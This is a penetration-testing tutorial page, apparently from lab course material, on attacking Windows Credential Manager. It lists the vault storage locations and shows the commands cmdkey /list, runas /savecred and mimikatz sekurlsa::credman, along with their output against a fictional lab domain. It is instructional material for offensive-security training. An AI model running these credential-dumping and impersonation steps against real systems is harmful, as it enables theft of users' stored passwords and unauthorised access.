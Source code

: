 # Attacking Windows Credential Manager

## Windows Vault and Credential Manager

[Credential Manager](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication#windows-vault-and-credential-manager) is a feature built into Windows since `Server 2008 R2` and `Windows 7`. Thorough documentation on how it works is not publicly available, but essentially, it allows users and applications to securely store credentials relevant to other systems and websites. Credentials are stored in special encrypted folders on the computer under the user and system profiles ([MITRE ATT\&CK](https://attack.mitre.org/techniques/T1555/004/)):

* `%UserProfile%\AppData\Local\Microsoft\Vault\`
* `%UserProfile%\AppData\Local\Microsoft\Credentials\`
* `%UserProfile%\AppData\Roaming\Microsoft\Vault\`
* `%ProgramData%\Microsoft\Vault\`
* `%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\`

Each vault folder contains a `Policy.vpol` file with AES keys (AES-128 or AES-256) that is protected by DPAPI. These AES keys are used to encrypt the credentials. Newer versions of Windows make use of `Credential Guard` to further protect the DPAPI master keys by storing them in secured memory enclaves ([Virtualization-based Security](https://learn.microsoft.com/en-us/windows-hardware/design/device-experiences/oem-vbs)).

Microsoft often refers to the protected stores as `Credential Lockers` (formerly `Windows Vaults`). Credential Manager is the user-facing feature/API, while the actual encrypted stores are the vault/locker folders. The following table lists the two types of credentials Windows stores:

<table><thead><tr><th width="182.18182373046875">Name</th><th>Description</th></tr></thead><tbody><tr><td>Web Credentials</td><td>Credentials associated with websites and online accounts. This locker is used by Internet Explorer and legacy versions of Microsoft Edge.</td></tr><tr><td>Windows Credentials</td><td>Used to store login tokens for various services such as OneDrive, and credentials related to domain users, local network resources, services, and shared directories.</td></tr></tbody></table>

<figure><img src="../../../../.gitbook/assets/image (547).png" alt=""><figcaption></figcaption></figure>

It is possible to export Windows Vaults to `.crd` files either via Control Panel or with the following command. Backups created this way are encrypted with a password supplied by the user, and can be imported on other Windows systems.

```cmd-session
C:\Users\sadams>rundll32 keymgr.dll,KRShowKeyMgr
```

<figure><img src="../../../../.gitbook/assets/image (548).png" alt=""><figcaption></figcaption></figure>

## Enumerating credentials with cmdkey

We can use [cmdkey](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) to enumerate the credentials stored in the current user's profile:

```cmd-session
C:\Users\sadams>whoami
srv01\sadams

C:\Users\sadams>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

Stored credentials are listed with the following format:

<table><thead><tr><th width="116.72723388671875">Key</th><th>Value</th></tr></thead><tbody><tr><td>Target</td><td>The resource or account name the credential is for. This could be a computer, domain name, or a special identifier.</td></tr><tr><td>Type</td><td>The kind of credential. Common types are <code>Generic</code> for general credentials, and <code>Domain Password</code> for domain user logons.</td></tr><tr><td>User</td><td>The user account associated with the credential.</td></tr><tr><td>Persistence</td><td>Some credentials indicate whether a credential is saved persistently on the computer; credentials marked with <code>Local machine persistence</code> survive reboots.</td></tr></tbody></table>

The first credential in the command output above, `virtualapp/didlogical`, is a generic credential used by Microsoft account/Windows Live services. The random looking username is an internal account ID. This entry may be ignored for our purposes.

The second credential, `Domain:interactive=SRV01\mcharles`, is a domain credential associated with the user SRV01\mcharles. `Interactive` means that the credential is used for interactive logon sessions. Whenever we come across this type of credential, we can use `runas` to impersonate the stored user like so:

```cmd-session
C:\Users\sadams>runas /savecred /user:SRV01\mcharles cmd
Attempting to start cmd as user "SRV01\mcharles" ...
```

<figure><img src="../../../../.gitbook/assets/image (549).png" alt=""><figcaption></figcaption></figure>

## Extracting credentials with Mimikatz

There are many different tools that can be used to decrypt stored credentials. One of the tools we can use is [mimikatz](https://github.com/gentilkiwi/mimikatz). Even within `mimikatz`, there are multiple ways to attack these credentials - we can either dump credentials from memory using the `sekurlsa` module, or we can manually decrypt credentials using the `dpapi` module. For this example, we will target the LSASS process with `sekurlsa`:

```cmd-session
C:\Users\Administrator\Desktop> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman

...SNIP...

Authentication Id : 0 ; 630472 (00000000:00099ec8)
Session           : RemoteInteractive from 3
User Name         : mcharles
Domain            : SRV01
Logon Server      : SRV01
Logon Time        : 4/27/2025 2:40:32 AM
SID               : S-1-5-21-1340203682-1669575078-4153855890-1002
        credman :
         [00000000]
         * Username : mcharles@inlanefreight.local
         * Domain   : onedrive.live.com
         * Password : ...SNIP...

...SNIP...
```

{% hint style="info" %}
**Note:** Some other tools which may be used to enumerate and extract stored credentials included [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI), [LaZagne](https://github.com/AlessandroZ/LaZagne), and [DonPAPI](https://github.com/login-securite/DonPAPI).
{% endhint %}
